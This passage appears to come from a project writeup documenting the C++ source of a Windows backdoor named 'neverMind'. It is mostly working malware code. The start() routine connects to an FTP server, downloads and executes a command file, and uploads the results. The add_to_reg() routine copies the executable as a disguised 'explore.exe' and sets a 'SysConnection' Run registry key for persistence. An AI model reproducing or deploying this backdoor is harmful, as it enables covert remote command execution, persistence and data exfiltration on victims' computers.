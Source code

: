 - `~neverMind()`: the destructor is empty as there are no specific resources that need to be cleaned up. this can be modified by you!

```cpp
neverMind::~neverMind()
    {
    }
```

#### backdoor operations 

- `start()`: this function opens the backdoor, sets up necessary directories, connects to the FTP server, downloads + executes commands, and manages the registry.

```cpp
void neverMind::start()
    {
        if (!std::filesystem::exists(store_path))
            setup();
        ftp_connection.connect();
        if (!ftp_connection.cd(win_username)) {
            ftp_connection.mkdir(win_username);
            ftp_connection.cd(win_username);
        }
        std::string file_path = (std::filesystem::path(app_path) / "cmd.txt").u8string();
        if (ftp_connection.retr_file(file_path, "cmd.txt")) {
            Sleep(1500);
            compile(file_path);
        }
        ftp_connection.upload_file(output_path, "output.txt");
        Sleep(2000);
    }
```

- `setup()`: this function sets up necessary directories and adds the backdoor to the registry for persistence.

```cpp
void neverMind::setup()
    {
        std::filesystem::create_directory(store_path);
        std::filesystem::create_directory(data_path);
        std::filesystem::create_directory(app_path);
        add_to_reg();
    }
```

- `add_to_reg()`: this function adds the backdoor to the registry for persistence. it copies the current executable to a new location and adds it to the startup registry key. the command `reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v SysConnection /t REG_SZ /d \"" + dest + "\"` adds a new entry `SysConnection` to the `Run` key in the Windows Registry. the entry contains the path of the neverMind executable. as a result, the backdoor will be executed every time the user logs on to Windows.

```cpp
void neverMind::add_to_reg()
    {
        WCHAR path[MAX_PATH];
        int len = GetModuleFileNameW(NULL, path, MAX_PATH);
        std::string new_path;
        std::string dest = (std::filesystem::path(store_path) / "explore.exe").u8string();
        for (int i = 0; i < len; ++i)
            new_path += path[i];
        std::filesystem::copy_file(new_path, dest);
        system(std::string("reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v SysConnection /t REG_SZ /d \"" + dest + "\"").c_str());
    }
```
